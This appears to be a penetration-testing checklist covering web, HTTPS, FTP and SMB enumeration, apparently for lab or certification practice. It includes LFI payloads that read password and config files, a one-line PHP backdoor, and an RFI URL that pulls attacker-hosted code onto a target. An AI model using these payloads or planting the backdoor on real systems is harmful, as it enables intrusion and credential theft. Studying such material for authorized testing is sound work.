 If nothing, try more web word lists.

*Browse the site* but keep an eye on the burp window / source code / cookies etc.

Things to look out for:

- Default credentials for software
- SQL-injectable GET/POST params
- LFI/RFI through ?page=foo type params
- LFI:
  - `/etc/passwd` | `/etc/shadow`
  - `/var/www/html/config.php` or similar paths to get SQL etc creds
  - `?page=php://filter/convert.base64-encode/resource=../config.php`
  - `../../../../../boot.ini` to find out windows version
- RFI:
  - Have your PHP/cgi downloader ready
  - `<?php include $_GET['inc']; ?>` simplest backdoor to keep it dynamic without anything messing your output
  - Then you can just `http://$IP/inc.php?inc=http://$YOURIP/bg.php` and have full control with minimal footprint on target machine
  - get `phpinfo()`


### HTTPS - 443

Heartbleed / CRIME / Other similar attacks

Read the actual SSL CERT to:

- find out potential correct vhost to GET
- is the clock skewed
- any names that could be usernames for bruteforce/guessing.

### FTP - 21

- Anonymous login
- Enumerate the hell out of the machine!
  - OS version
  - Other software you can find on the machine (Prog Files, yum.log, /bin)
  - password files
  - DLLs for `msfpescan` / BOF targets
- Do you have UPLOAD potential?
  - Can you trigger execution of uploads?
  - Swap binaries?
- Vulnerabilities in version / RCE

### SMB - 139, 445

```
enum4linux -a $IP
```

Read through the report and search for versions of things => `searchsploit`

```
smbclient -L $IP
```
